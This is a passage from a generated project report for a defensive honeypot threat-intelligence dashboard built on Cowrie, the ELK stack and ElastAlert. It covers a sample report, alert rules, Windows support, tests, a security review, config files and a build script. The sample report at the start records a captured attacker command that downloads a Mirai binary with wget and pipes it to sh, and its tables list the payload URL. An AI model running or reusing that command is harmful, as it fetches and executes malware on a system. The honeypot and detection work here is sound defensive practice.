| cd /tmp; wget http://198.51.100.7/x86_64 \| sh <evil> & 'id' | 6 |

## Malware IOCs (SHA-256)

| SHA-256 | Events | IPs | VT detections | Family | Source URL |
|---|---|---|---|---|---|
| aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa | 6 | 2 | 41 | trojan.mirai | http://198.51.100.7/x86_64 |

## Payload URLs

| URL | Downloads |
|---|---|
| http://198.51.100.7/x86_64 | 6 |

## MITRE ATT&CK techniques

| ID | Technique | Events |
|---|---|---|
| T1110 | Brute Force | 150 |
| T1098.004 | SSH Authorized Keys | 3 |

## SSH client fingerprints (HASSH)

| HASSH | Client | Events | IPs |
|---|---|---|---|
| cccccccccccccccccccccccccccccccc | SSH-2.0-libssh_0.9.6 | 30 | 8 |

## Threat-intel verdict distribution

| Verdict | Events | Unique IPs |
|---|---|---|
| malicious | 120 | 6 |
| benign | 20 | 1 |

## OTX threat tags

| Tag | Events |
|---|---|
| mirai | 100 |
| botnet | 90 |

---
Risk score = round(0.6 x event severity + 0.4 x threat-intel score); TI score = max(AbuseIPDB confidence, 10 x VirusTotal detections, 10 x OTX pulses). Verdict: malicious >= 75, suspicious >= 25; CDN/whitelisted sources are 'benign'.
------------------------------------------------------------------------------
END OF FILE: docs/sample_report/threat_report_SAMPLE.md
------------------------------------------------------------------------------

==============================================================================
9. Alerting with ElastAlert 2
==============================================================================

ElastAlert 2 is open source and needs no paid licence (Kibana Watcher requires
a paid subscription), which is why it was chosen. Four rules ship in
`elastalert/rules/`:

+------------------------+------------+--------------------------------------+
| Rule                   | Type       | Fires when                           |
+========================+============+======================================+
| bruteforce_spike       | frequency  | >= 40 failed logins from one source  |
|                        |            | IP within 5 minutes                  |
+------------------------+------------+--------------------------------------+
| login_success_maliciou | any        | a honeypot login succeeds from an IP |
| s_ip                   |            | with ti.verdict = malicious          |
+------------------------+------------+--------------------------------------+
| malware_download       | any        | a file is downloaded or uploaded     |
|                        |            | inside the honeypot                  |
+------------------------+------------+--------------------------------------+
| critical_risk_event    | any        | any event reaches event.risk_score   |
|                        |            | >= 80                                |
+------------------------+------------+--------------------------------------+

By default alerts are written to the container log and to the ElastAlert
writeback index (`logs.bat elastalert`). To notify people, change the `alert:`
list of a rule to an ElastAlert 2 alerter (Slack, e-mail, Teams, webhook ...).
Alert timestamps in the writeback index make Mean Time to Detect measurable.

------------------------------------------------------------------------------
FILE: elastalert/rules/login_success_malicious_ip.yaml   (28 lines)
------------------------------------------------------------------------------
name: "TI - Honeypot login succeeded from a threat-intel 'malicious' IP"
type: any
index: honeypot-cowrie-*
timestamp_field: "@timestamp"
timestamp_type: iso
filter:
  - query:
      query_string:
        query: 'event.action:"cowrie.login.success" AND ti.verdict:"malicious"'
query_key: source.ip
realert:
  minutes: 60
alert:
  - debug
alert_subject: "[Honeypot] Known-malicious IP {0} got a shell"
alert_subject_args:
  - source.ip
alert_text_type: alert_text_only
alert_text: |
  Known-malicious IP {0} ({1}) logged in as {2}/{3}.
  AbuseIPDB confidence: {4}   OTX pulses: {5}
alert_text_args:
  - source.ip
  - source.geo.country_name
  - cowrie.username
  - cowrie.password
  - ti.abuseipdb.confidence_score
  - ti.otx.pulse_count
------------------------------------------------------------------------------
END OF FILE: elastalert/rules/login_success_malicious_ip.yaml
------------------------------------------------------------------------------

==============================================================================
10. Windows packaging and compatibility
==============================================================================

Everything runs in Linux containers, so the Windows requirement is Docker
Desktop with the WSL 2 backend. The launchers use only cmd.exe and Windows
PowerShell 5.1 (present on every Windows 10/11); all Python and Ruby work
happens inside containers, so the host needs no Python, Ruby or Git.

+--------------------------+-----------------+-------------------------------+
| Windows version          | Result          | How                           |
+==========================+=================+===============================+
| Windows 11 (23H2+),      | Supported       | Docker Desktop + WSL 2,       |
| 64-bit                   |                 | double-click start.bat        |
+--------------------------+-----------------+-------------------------------+
| Windows 10 22H2 (build   | Supported       | Docker Desktop + WSL 2,       |
| 19045), 64-bit           |                 | double-click start.bat        |
+--------------------------+-----------------+-------------------------------+
| Windows Home editions    | Normally works  | WSL 2 backend runs Linux      |
|                          |                 | containers; if Docker refuses |
|                          |                 | to install, use the Linux-    |
|                          |                 | host route                    |
+--------------------------+-----------------+-------------------------------+
| Windows 7 / 8 / 8.1 / 10 | Not supported   | Run the stack on a Linux      |
| < 22H2 / 32-bit          | by Docker       | host; use any browser (SSH    |
|                          |                 | tunnel) from Windows          |
+--------------------------+-----------------+-------------------------------+
| Windows Server 2016-2022 | Docker Desktop  | Same Linux-host route (or     |
|                          | not supported   | Docker Engine inside WSL 2 -  |
|                          |                 | untested)                     |
+--------------------------+-----------------+-------------------------------+
| Windows on ARM           | Untested        | Docker lists it as Early      |
|                          |                 | Access                        |
+--------------------------+-----------------+-------------------------------+

Source of the Docker Desktop requirements: Docker's published system-
requirements page (checked November 2026). They can change; verify before
relying on them. These results come from reading the requirements, not from
running the project on each Windows version.

  * `start.bat` -> `scripts/start.ps1`: checks Docker, port conflicts and
    compose v2, generates `.env` secrets (`setup.ps1`, cryptographic RNG,
    alphanumeric only), renders the ElastAlert config, builds and starts the
    stack, waits for Kibana, reports whether the dashboard import succeeded.
  * `stop.bat`, `status.bat`, `logs.bat`, `simulate.bat`, `report.bat`, `live-
    test.bat`, `reset.bat` (asks for YES).
  * All launcher files are ASCII-only (PowerShell 5.1 mis-reads UTF-8 without
    a BOM) and are delivered with Windows (CRLF) line endings; config/code
    files keep Linux (LF) endings, enforced by `.gitattributes`.
  * `scripts/setup.sh` is the Linux/macOS twin of `setup.ps1` (tested), for
    servers and VPS deployments.

==============================================================================
11. Testing and validation
==============================================================================

Counts below are measured when this document is built.

+---------------------------------------------------+------------------------+
| Check                                             | Result                 |
+===================================================+========================+
| Python unit + consistency tests (report,          | 57 tests, all passing  |
| renderers, queries, config)                       |                        |
+---------------------------------------------------+------------------------+
| Ruby tests for the enrichment library             | 16 tests, all passing  |
| (classification, cache, quotas, scoring,          |                        |
| failures)                                         |                        |
+---------------------------------------------------+------------------------+
| docker compose config (schema validation with a   | valid                  |
| generated .env)                                   |                        |
+---------------------------------------------------+------------------------+
| End-to-end enrichment on simulated traffic (seed  | 6,006 events, 241      |
| 42)                                               | attackers, 222         |
|                                                   | critical events, 88    |
|                                                   | malicious IPs; all 3   |
|                                                   | alert rules would fire |
+---------------------------------------------------+------------------------+
| setup.sh: 8 secrets, correct lengths, idempotent, | pass                   |
| mode 600                                          |                        |
+---------------------------------------------------+------------------------+
| Mutation check: re-introducing the invalid http-  | regression tests fail  |
| filter option                                     | as intended            |
+---------------------------------------------------+------------------------+

What the consistency tests catch: a variable used by compose but never
generated by setup; a dashboard field missing from the index template;
aggregation on a text field; a Logstash call to a missing Ruby method; an
unsupported plugin option; a honeypot attached to the ELK network; a published
port that is not localhost-only; a hard-coded secret; truncated batch files;
non-ASCII characters in launchers.

  | NOTE: Not verified here: starting the containers together, running the
  | PowerShell/cmd scripts on Windows, importing the dashboard into a live
  | Kibana, and Cowrie's environment-variable names/log paths (taken from its
  | documentation and defaults). HOW_TO_RUN.txt explains how to check each of
  | these in minutes.

==============================================================================
12. Security review
==============================================================================

+------------------------------------------------------+---------------------+
| Control                                              | Status              |
+======================================================+=====================+
| API keys from environment only; never in config      | Done (tested)       |
| files                                                |                     |
+------------------------------------------------------+---------------------+
| Honeypot isolated on its own network, read-only log  | Done (tested)       |
| hand-off                                             |                     |
+------------------------------------------------------+---------------------+
| Container hardening: cap_drop ALL, no-new-           | Done (tested)       |
| privileges, limits                                   |                     |
+------------------------------------------------------+---------------------+
| Elasticsearch security on; least-privilege users per | Done                |
| component                                            |                     |
+------------------------------------------------------+---------------------+
| Admin UIs bound to 127.0.0.1                         | Done (tested)       |
+------------------------------------------------------+---------------------+
| Secrets generated randomly, .env and                 | Done (tested)       |
| elastalert/config.yaml git-ignored                   |                     |
+------------------------------------------------------+---------------------+
| Escaping of attacker-controlled text in HTML/PDF     | Done (tested)       |
| reports                                              |                     |
+------------------------------------------------------+---------------------+
| Outbound-only lookups; hashes not files;             | Done (tested)       |
| private/simulated IPs never sent                     |                     |
+------------------------------------------------------+---------------------+
| Cowrie image tag `latest`                            | Residual: pin to a  |
|                                                      | digest for          |
|                                                      | production          |
+------------------------------------------------------+---------------------+
| Honeypot container has outbound internet (needed to  | Residual: restrict  |
| fetch malware samples)                               | with a firewall on  |
|                                                      | a VPS               |
+------------------------------------------------------+---------------------+
| Plain HTTP between containers on the private network | Residual: enable    |
|                                                      | TLS for multi-host  |
|                                                      | setups              |
+------------------------------------------------------+---------------------+
| Secrets stored in plain text in .env                 | Residual: use       |
|                                                      | Docker secrets / a  |
|                                                      | vault for shared    |
|                                                      | deployments         |
+------------------------------------------------------+---------------------+

==============================================================================
13. Module 6 - Key learnings and portfolio highlights
==============================================================================

Threat intelligence

  * IOC lifecycle: collect (honeypot) -> enrich -> score -> distribute (IOC
    CSV, blocklist, alerts) -> age out. Here the cache TTL (24 h) and index
    retention (30 d) are the ageing mechanism; IPs are recycled, so a
    blocklist without expiry becomes a false-positive generator.
  * False-positive reduction: whitelisted/CDN/search-engine sources are marked
    benign, capped at risk 20 and excluded from the blocklist; the score is
    the maximum across independent providers; failed lookups are 'unknown',
    never 'clean'; simulated data is always labelled.
  * Context turns indicators into intelligence: ATT&CK technique tags, HASSH
    client fingerprints, payload URLs and file hashes describe the attacker's
    tooling and persist longer than a rotating IP address.
  * Honest confidence: every claim in a report traces back to a field, a
    provider and a score.

Data visualisation (actionable SOC metrics)

  * Velocity and unique-IP count together separate a campaign (many IPs) from
    one noisy host (many events).
  * The funnel failed login -> successful login -> commands -> malware
    download shows how far attackers get.
  * Top ASNs support network-level blocking; top credentials support policy
    (ban default passwords, use keys/MFA).
  * Top commands and ATT&CK techniques feed detection engineering; rare-
    command hunting finds new tooling.
  * Each panel is tied to a decision; no vanity metrics. Demo data is labelled
    so screenshots stay honest.

Automation (reducing Mean Time to Detect / Respond)

  * Detection: ElastAlert rules evaluate new events continuously, so detection
    no longer waits for an analyst to open a dashboard. MTTD is measurable as
    (alert time - first malicious event time) from the writeback index.
  * Response: enrichment happens at ingest, so the analyst starts with
    verdict, score, geography and ATT&CK context instead of pivoting across
    four websites; the blocklist is ready-made for firewall/EDR import.
  * Reporting: the daily report removes manual status writing and gives
    management a stable, comparable summary.
  * Caution for interviews: these are design properties. No MTTD/MTTR
    improvement has been measured; run the honeypot for a few weeks on a VPS
    and report real numbers.

How to present it (accurate, portfolio-ready lines)

  * Designed and built a containerised honeypot-to-dashboard threat-
    intelligence pipeline (Cowrie, Filebeat, Logstash, Elasticsearch, Kibana)
    with GeoIP/ASN and AbuseIPDB/OTX/VirusTotal enrichment.
  * Implemented quota-aware, cached threat-feed lookups and a transparent
    risk-scoring model with ATT&CK mapping and false-positive suppression for
    benign scanners.
  * Automated daily PDF/HTML/Markdown intelligence reports, IOC CSV and IP
    blocklists, plus ElastAlert detections.
  * Hardened the lab: isolated honeypot network, least-privilege Elasticsearch
    roles, secrets via environment, and an automated test suite with cross-
    file consistency checks.
  * Say clearly that the demo data is simulated; show your own screenshots and
    real numbers from a VPS run.

==============================================================================
14. Limitations and next steps
==============================================================================

  * Cowrie is medium-interaction: skilled attackers may recognise it; add
    Dionaea or T-Pot for more protocols.
  * GeoIP is approximate (city level is often wrong); free API tiers limit
    coverage to the busiest IPs first.
  * Single-node Elasticsearch: no high availability; use for lab and small
    deployments.
  * Add TLS between components, pin image digests, restrict honeypot egress,
    use Docker secrets.
  * Export STIX 2.1 / push IOCs to MISP or a TAXII server; add Slack/e-mail
    alerters.
  * Query tests against a real Elasticsearch (for example with Testcontainers)
    in CI.
  * Measure MTTD/MTTR from the ElastAlert writeback index after a real
    collection period.

==============================================================================
15. Publishing this project on GitHub
==============================================================================

Create an empty repository on github.com (no README, no .gitignore), then run
in the project folder (Git for Windows or any Git):

    git init
    git add .
    git status                       (confirm .env and elastalert/config.yaml are NOT listed)
    git commit -m "Threat Intelligence Dashboard: Cowrie + ELK + threat-feed enrichment"
    git branch -M main
    git remote add origin https://github.com/<your-user>/threat-intelligence-dashboard.git
    git push -u origin main

  * Suggested repository description: Honeypot threat-intelligence dashboard -
    Cowrie, Filebeat, Logstash (GeoIP, AbuseIPDB, OTX, VirusTotal),
    Elasticsearch, Kibana, ElastAlert 2, automated PDF reports. Runs on
    Windows via Docker Desktop.
  * Suggested topics: honeypot, cowrie, elk-stack, threat-intelligence, soc,
    siem, logstash, kibana, elastalert, mitre-attack, docker, python,
    cybersecurity, blue-team.
  * Never commit .env or elastalert/config.yaml (both are in .gitignore). If a
    key was ever committed, revoke it at the provider, then rewrite history.
  * Add your own Kibana screenshots (from a real or clearly labelled demo run)
    to a docs/screenshots folder and reference them in README.md.
  * Choose a licence deliberately (for example MIT) and add a LICENSE file;
    this package ships none.
  * Third-party components keep their own licences (Elastic stack, Cowrie,
    ElastAlert 2, MaxMind GeoLite2 terms apply to the downloaded databases).

==============================================================================
Appendix A. Remaining source files (complete)
==============================================================================

------------------------------------------------------------------------------
FILE: .env.example   (52 lines)
------------------------------------------------------------------------------
# =====================================================================
#  Threat Intelligence Dashboard - configuration template
#  start.bat copies this file to ".env" and fills every EMPTY secret with a
#  random value (scripts\setup.ps1). Existing values are never overwritten.
#  NEVER commit ".env" (it is listed in .gitignore).
# =====================================================================

# ---- Elastic Stack ---------------------------------------------------
STACK_VERSION=8.15.3

# ---- Generated secrets (leave empty - setup.ps1 fills them) ----------
ELASTIC_PASSWORD=
KIBANA_SYSTEM_PASSWORD=
LOGSTASH_WRITER_PASSWORD=
TI_READER_PASSWORD=
ELASTALERT_PASSWORD=
# Kibana encryption keys (must be >= 32 characters)
KIBANA_SECURITY_KEY=
KIBANA_ENCRYPTION_KEY=
KIBANA_REPORTING_KEY=

# ---- Honeypot --------------------------------------------------------
# Host ports that attackers hit. 2222/2223 are unprivileged and work on Windows.
# To attract real traffic, forward 22 -> 2222 and 23 -> 2223 on a VPS/router.
COWRIE_SSH_PORT=2222
COWRIE_TELNET_PORT=2223
COWRIE_HOSTNAME=srv-db-04

# ---- Threat-intelligence API keys (all optional) ---------------------
# Leave blank to skip a provider. GeoIP + local risk scoring still work.
ABUSEIPDB_API_KEY=
OTX_API_KEY=
VT_API_KEY=

# Free-tier protection: hard call budgets enforced inside Logstash.
ABUSEIPDB_DAILY_LIMIT=900
OTX_DAILY_LIMIT=2000
OTX_PER_MINUTE=30
VT_DAILY_LIMIT=450
VT_PER_MINUTE=4
# VirusTotal IP lookups only happen when AbuseIPDB score >= this value.
VT_MIN_ABUSE_SCORE=25
# How long an IP verdict is cached in Logstash memory before re-querying.
TI_CACHE_TTL_HOURS=24

# ---- Retention / reporting -------------------------------------------
RETENTION_DAYS=30
REPORT_TZ=UTC
REPORT_DAILY_AT=07:00

# Set to true to print every processed event in "docker compose logs logstash"
DEBUG_STDOUT=false
------------------------------------------------------------------------------
END OF FILE: .env.example
------------------------------------------------------------------------------

------------------------------------------------------------------------------
FILE: .gitattributes   (13 lines)
------------------------------------------------------------------------------
# Files that are mounted into Linux containers MUST keep LF line endings,
# even when cloned on Windows (CRLF breaks YAML/Ruby/Python in containers).
* text=auto
*.yml text eol=lf
*.yaml text eol=lf
*.conf text eol=lf
*.rb text eol=lf
*.py text eol=lf
*.json text eol=lf
Dockerfile text eol=lf
# Windows launchers keep CRLF
*.bat text eol=crlf
*.ps1 text eol=crlf
------------------------------------------------------------------------------
END OF FILE: .gitattributes
------------------------------------------------------------------------------

------------------------------------------------------------------------------
FILE: .gitignore   (15 lines)
------------------------------------------------------------------------------
# --- secrets (never commit) ---
.env
elastalert/config.yaml
*.key
*.pem

# --- runtime output ---
reports/*
!reports/.gitkeep
lite_data/
.venv-lite/
__pycache__/
*.pyc
.pytest_cache/
*.log
------------------------------------------------------------------------------
END OF FILE: .gitignore
------------------------------------------------------------------------------

------------------------------------------------------------------------------
FILE: docs/build_docs.py   (561 lines)
------------------------------------------------------------------------------
#!/usr/bin/env python3
"""
Build the two project documents from the REAL project files:

    GITHUB_REPORT.txt                                    (plain text: steps, code, diagrams)
    Threat_Intelligence_Dashboard_Project_Report.pdf     (illustrated project report)

Usage (from the project root):   python docs/build_docs.py
Needs: reportlab, pyyaml.  Optional: pdftoppm (poppler) for the sample-report pictures.

The build RUNS the test suites and refuses to write documents if any test fails, so the
test counts printed in the documents are measured, never typed in by hand.
"""
import json
import os
import re
import subprocess
import sys
import tempfile
import textwrap
from pathlib import Path

ROOT = Path(__file__).resolve().parent.parent
sys.path.insert(0, str(ROOT / "docs"))
sys.path.insert(0, str(ROOT / "tools"))

import kibana_objects  # noqa: E402
import report_content as C  # noqa: E402

TXT_OUT = ROOT / "GITHUB_REPORT.txt"
PDF_OUT = ROOT / "Threat_Intelligence_Dashboard_Project_Report.pdf"

# ------------------------------------------------------------------------------------------
# measured facts
# ------------------------------------------------------------------------------------------

def measure_tests():
    py = subprocess.run([sys.executable, "-I", "-m", "unittest", "discover", "-s", "tests", "-p", "test_*.py"],
                        cwd=ROOT, capture_output=True, text=True)
    m = re.search(r"Ran (\d+) tests?", py.stderr)
    if py.returncode != 0 or not m:
        sys.exit("Python tests FAILED - refusing to build documents.\n" + py.stderr[-2000:])
    n_py = int(m.group(1))
    rb = subprocess.run(["ruby", "tests/test_ti_lib.rb"], cwd=ROOT, capture_output=True, text=True)
    m = re.search(r"(\d+) runs, (\d+) assertions, 0 failures, 0 errors", rb.stdout)
    if rb.returncode != 0 or not m:
        sys.exit("Ruby tests FAILED - refusing to build documents.\n" + rb.stdout[-2000:])
    return n_py, int(m.group(1))

N_PY, N_RB = measure_tests()
N_VIS = len(kibana_objects.visualizations())
SUBST = {"{TESTS_PY}": str(N_PY), "{TESTS_RB}": str(N_RB), "{N_VIS}": str(N_VIS)}

def subst(text):
    for k, v in SUBST.items():
        text = text.replace(k, v)
    return text

def read_lines(rel):
    return (ROOT / rel).read_text(encoding="utf-8").splitlines()

def excerpt(rel, spec):
    lines = read_lines(rel)
    a, b = spec
    if isinstance(a, str):
        s = next(i for i, ln in enumerate(lines) if a in ln)
        e = next(i for i, ln in enumerate(lines) if i > s and b in ln)
        if s > 0 and lines[s - 1].lstrip().startswith("# ---"):
            s -= 1
        if e > 0 and lines[e - 1].lstrip().startswith("# ---"):
            e -= 1
        return lines[s:e]
    return lines[a - 1:b]

PANEL_PURPOSE = {
    "ti-vis-kpi-events": "Overall volume baseline",
    "ti-vis-kpi-attackers": "Distinct sources: campaign or one noisy host?",
    "ti-vis-kpi-sessions": "Attack attempts (connections)",
    "ti-vis-kpi-highrisk": "Escalation workload (risk >= 70)",
    "ti-vis-kpi-malicious": "IPs confirmed bad by threat intel = blocklist candidates",
    "ti-vis-kpi-malware": "Payloads dropped - incident-response priority",
    "ti-vis-timeline": "Attack timeline / velocity by risk level - spot waves",
    "ti-vis-velocity": "Brute-force bursts: failed vs successful logins",
    "ti-vis-top-ips": "Block / escalate these IPs first",
    "ti-vis-top-asns": "Network-level blocking, abuse reports",
    "ti-vis-countries": "Geographic context (not attribution)",
    "ti-vis-verdicts": "Share confirmed by TI; 'unknown' = enrichment gap",
    "ti-vis-ports": "Which services attackers target",
    "ti-vis-protocols": "SSH vs Telnet mix",
    "ti-vis-usernames": "Credential hygiene: usernames",
    "ti-vis-passwords": "Credential hygiene: passwords to ban",
    "ti-vis-credentials": "Most common user:password pairs",
    "ti-vis-commands": "Attacker tradecraft, detection ideas",
    "ti-vis-malware": "Hashes to hunt in EDR; VirusTotal detections",
    "ti-vis-mitre": "Map activity to MITRE ATT&CK",
    "ti-vis-hassh": "SSH client fingerprint that survives IP changes",
    "ti-vis-otx-tags": "Campaign / malware-family context",
    "ti-vis-map-help": "Setup steps for the geographic map",
}

def panel_rows():
    rows = []
    for o in kibana_objects.visualizations():
        st = json.loads(o["attributes"]["visState"])
        fields = []
        for a in st["aggs"]:
            f = a["params"].get("field")
            if f and f not in fields:
                fields.append(f)
        q = json.loads(o["attributes"]["kibanaSavedObjectMeta"]["searchSourceJSON"])["query"]["query"]
        detail = ", ".join(fields) if fields else "-"
        if q:
            detail += f"   [filter: {q}]"
        rows.append([o["attributes"]["title"], st["type"], detail, PANEL_PURPOSE.get(o["id"], "")])
    return rows

def kql_rows():
    rows = []
    for ln in read_lines("kibana/kql_filters.txt"):
        if ln.strip() and not ln.startswith("#"):
            n, q = [x.strip() for x in ln.split("|", 1)]
            rows.append([n, q])
    return rows

def dsl_files():
    return [(p.name, p.read_text(encoding="utf-8").rstrip()) for p in sorted((ROOT / "kibana" / "dsl").glob("*.json"))]

def check_ascii(text, what):
    bad = sorted({c for c in text if ord(c) > 126})
    if bad:
        sys.exit(f"non-ASCII characters in {what}: {bad}")

# ------------------------------------------------------------------------------------------
# TXT renderer
# ------------------------------------------------------------------------------------------
W = 78

def t_inline(s):
    return subst(s).replace("**", "")

def t_wrap(s, indent="", first=None):
    first = indent if first is None else first
    return textwrap.fill(t_inline(s), W, initial_indent=first, subsequent_indent=indent, break_long_words=False)

def t_table(header, rows, rel):
    n = len(header)
    inner = W - (3 * n + 1)
    tot = float(sum(rel))
    cw = [max(6, int(inner * r / tot)) for r in rel]
    cw[-1] += inner - sum(cw)
    sep = "+" + "+".join("-" * (w + 2) for w in cw) + "+"

    def line(cells):
        wrapped = [textwrap.wrap(t_inline(str(c)), cw[i], break_long_words=True) or [""] for i, c in enumerate(cells)]
        h = max(len(x) for x in wrapped)
        out = []
        for k in range(h):
            out.append("| " + " | ".join((wrapped[i][k] if k < len(wrapped[i]) else "").ljust(cw[i]) for i in range(n)) + " |")
        return out

    out = [sep] + line(header) + [sep.replace("-", "=")]
    for r in rows:
        out += line(r) + [sep]
    return "\n".join(out)

def t_file(rel):
    lines = (ROOT / rel).read_text(encoding="utf-8").splitlines()
    bar = "-" * W
    return f"{bar}\nFILE: {rel}   ({len(lines)} lines)\n{bar}\n" + "\n".join(lines) + f"\n{bar}\nEND OF FILE: {rel}\n{bar}"

def tree():
    notes = {
        "start.bat": "start / update everything (Windows)", "stop.bat": "stop containers, keep data",
        "status.bat": "health + event count", "logs.bat": "service logs", "reset.bat": "delete collected data",
        "simulate.bat": "load demo attack data", "report.bat": "generate report now", "live-test.bat": "prove honeypot capture",
        "docker-compose.yml": "10-service stack", ".env.example": "settings template",
        "HOW_TO_RUN.txt": "run instructions", "GITHUB_REPORT.txt": "this report",
        "filebeat": "log shipper config", "logstash": "pipeline + Ruby enrichment library", "elasticsearch": "index template + ILM",
        "elastalert": "alert rules", "kibana": "KQL filters + DSL queries", "tools": "Python tools (init, simulate, report, dashboards)",
        "tests": "automated tests", "scripts": "PowerShell + setup.sh", "docs": "document builder + sample report",
        "reports": "generated reports land here",
    }
    out = ["Threat Intelligence Dashboard/"]
    entries = sorted(p for p in ROOT.iterdir() if p.name not in {"__pycache__"} and not p.name.startswith(".git"))
    entries = [p for p in entries if p.name not in {".env", "lite_data"}]
    for i, p in enumerate(entries):
        last = i == len(entries) - 1
        out.append(f"{'`--' if last else '|--'} {p.name}{'/' if p.is_dir() else ''}".ljust(34) + ("  # " + notes[p.name] if p.name in notes else ""))
        if p.is_dir() and p.name not in {"reports"}:
            kids = sorted(k for k in p.rglob("*") if k.is_file() and "__pycache__" not in k.parts and k.suffix != ".pyc")
            for j, k in enumerate(kids):
                rel = k.relative_to(p).as_posix()
                out.append(f"{'    ' if last else '|   '}{'`--' if j == len(kids) - 1 else '|--'} {rel}")
    return "\n".join(out)

def render_txt():
    out, embedded = [], set()
    bar = "=" * W
    out += [bar, f" {C.TITLE.upper()} - GITHUB REPORT", f" {C.SUBTITLE}", f" Built {C.DATE}",
            " Step-by-step process, complete source code and data-flow diagrams", bar, ""]
    out += [t_wrap("This file is the long-form README of the repository: how the system was designed, how every "
                   "component works, the complete code of each component, and the diagrams. Run instructions are in "
                   "HOW_TO_RUN.txt; the illustrated analysis is in the PDF report."), ""]
    out += ["CONTENTS", "-" * 8, "  0. Repository layout"]
    secs = C.SECTIONS + [dict(id=i, title=t, blocks=b) for i, t, b in C.GITHUB_SECTIONS]
    out += [f"  {s['title']}" for s in secs]
    out += ["  Appendix A. Remaining source files (complete)", ""]
    out += [bar, "0. Repository layout", bar, "", tree(), ""]

    for s in secs:
        out += ["", bar, s["title"], bar, ""]
        for blk in s["blocks"]:
            k = blk[0]
            if k == "p":
                out += [t_wrap(blk[1]), ""]
            elif k == "bullets":
                for b in blk[1]:
                    out.append(t_wrap(b, indent="    ", first="  * "))
                out.append("")
            elif k == "table":
                out += [t_table(blk[1], [[subst(str(c)) for c in r] for r in blk[2]], blk[3]), ""]
            elif k == "note":
                out += [t_wrap("NOTE: " + blk[1], indent="  | ", first="  | "), ""]
            elif k == "pre":
                out += ["    " + ln for ln in subst(blk[1]).splitlines()] + [""]
            elif k == "diagram":
                out += [C.ASCII[blk[1]], ""]
            elif k == "pre_txt_only":
                out += [C.ASCII[blk[1]], ""]
            elif k == "code":
                embedded.add(blk[1])
                out += [t_file(blk[1]), ""]
            elif k == "panel_table":
                out += [t_table(["Panel", "Type", "Fields / filter", "Decision it supports"], panel_rows(), [2.2, 0.9, 3.2, 2.4]), ""]
            elif k == "kql_table":
                out += [t_table(["Name", "KQL query"], kql_rows(), [1.6, 4.4]), ""]
            elif k == "dsl_blocks":
                for name, body in dsl_files():
                    out += [f"--- kibana/dsl/{name} ---", body, ""]
            elif k == "sample_page":
                out += [t_wrap("A sample generated report (Markdown version) is included below; the PDF/HTML versions "
                               "are in docs/sample_report/."), ""]
                out += [t_file("docs/sample_report/threat_report_SAMPLE.md"), ""]
                embedded.add("docs/sample_report/threat_report_SAMPLE.md")

    # Appendix: every remaining source file, complete
    out += ["", bar, "Appendix A. Remaining source files (complete)", bar, ""]
    skip_dirs = {"__pycache__", "reports", "sample_report"}
    skip_names = {"GITHUB_REPORT.txt", "HOW_TO_RUN.txt", ".env"}
    files = []
    for p in sorted(ROOT.rglob("*")):
        rel = p.relative_to(ROOT).as_posix()
        if (not p.is_file() or set(p.parts) & skip_dirs or p.name in skip_names or p.suffix in {".pdf", ".pyc"}
                or rel in embedded or rel.startswith("docs/") and p.name != "build_docs.py" and p.name != "report_content.py"):
            continue
        if p.name == ".gitkeep" or p.name == "test_report.py" and False:
            continue
        files.append(rel)
    for rel in files:
        text = (ROOT / rel).read_text(encoding="utf-8", errors="replace")
        if any(ord(c) > 126 for c in text):  # keep the TXT plain ASCII for old Notepad versions
            text = text.encode("ascii", "replace").decode("ascii")
            (ROOT / ".tmp_ascii").write_text(text, encoding="utf-8")
            lines = text.splitlines()
            out += [f"{'-' * W}\nFILE: {rel}   ({len(lines)} lines; non-ASCII characters shown as '?')\n{'-' * W}",
                    *lines, f"{'-' * W}\nEND OF FILE: {rel}\n{'-' * W}", ""]
            (ROOT / ".tmp_ascii").unlink()
        else:
            out += [t_file(rel), ""]
    out += [bar, " END OF REPORT", bar, ""]
    text = "\n".join(out)
    check_ascii(text, "GITHUB_REPORT.txt")
    TXT_OUT.write_text(text, encoding="utf-8", newline="\n")
    return len(text.splitlines()), len(files) + len(embedded)

# ------------------------------------------------------------------------------------------
# PDF renderer
# ------------------------------------------------------------------------------------------
def render_pdf():
    from reportlab.graphics.shapes import Drawing, Line, Polygon, Rect, String
    from reportlab.lib import colors
    from reportlab.lib.enums import TA_CENTER
    from reportlab.lib.pagesizes import A4
    from reportlab.lib.styles import ParagraphStyle, getSampleStyleSheet
    from reportlab.lib.units import mm
    from reportlab.platypus import (BaseDocTemplate, Frame, Image, KeepTogether, PageBreak, PageTemplate, Paragraph,
                                    Preformatted, Spacer, Table, TableStyle)
    from reportlab.platypus.tableofcontents import TableOfContents

    NAVY, TEAL, GREY, RED = colors.HexColor("#14283c"), colors.HexColor("#0a7c8c"), colors.HexColor("#5b6670"), colors.HexColor("#c62828")
    ss = getSampleStyleSheet()
    body = ParagraphStyle("body", parent=ss["BodyText"], fontName="Helvetica", fontSize=9.3, leading=13, spaceAfter=5)
    small = ParagraphStyle("small", parent=body, fontSize=8, leading=10.2, spaceAfter=0)
    h1 = ParagraphStyle("H1", parent=ss["Heading1"], fontName="Helvetica-Bold", fontSize=16, leading=20, textColor=NAVY, spaceBefore=6, spaceAfter=8)
    h2 = ParagraphStyle("H2", parent=ss["Heading2"], fontName="Helvetica-Bold", fontSize=11.5, textColor=TEAL, spaceBefore=8, spaceAfter=4)
    bullet = ParagraphStyle("bullet", parent=body, leftIndent=14, bulletIndent=3, spaceAfter=2.5)
    notestyle = ParagraphStyle("note", parent=body, fontSize=8.8, leading=12, textColor=colors.HexColor("#4a2d00"))
    code = ParagraphStyle("code", fontName="Courier", fontSize=6.5, leading=8.1, backColor=colors.HexColor("#f3f5f7"),
                          borderPadding=(4, 4, 4, 4), leftIndent=4, rightIndent=4, spaceBefore=3, spaceAfter=8)
    cap = ParagraphStyle("cap", parent=small, textColor=GREY, fontName="Helvetica-Oblique", spaceAfter=6)

    def inline(t):
        t = subst(t).replace("&", "&amp;").replace("<", "&lt;").replace(">", "&gt;")
        t = re.sub(r"\*\*(.+?)\*\*", r"<b>\1</b>", t)
        t = re.sub(r"`(.+?)`", r'\1', t)
        return t

    def P(t, st=body):
        return Paragraph(inline(t), st)

    def table(header, rows, rel, fs=8):
        cell = ParagraphStyle("cell", parent=small, fontSize=fs, leading=fs + 2.2)
        head = ParagraphStyle("hd", parent=cell, fontName="Helvetica-Bold", textColor=colors.white)
        avail = A4[0] - 36 * mm
        tot = float(sum(rel))
        data = [[Paragraph(inline(h), head) for h in header]] + [[Paragraph(inline(str(c)), cell) for c in r] for r in rows]
        t = Table(data, colWidths=[avail * r / tot for r in rel], repeatRows=1)
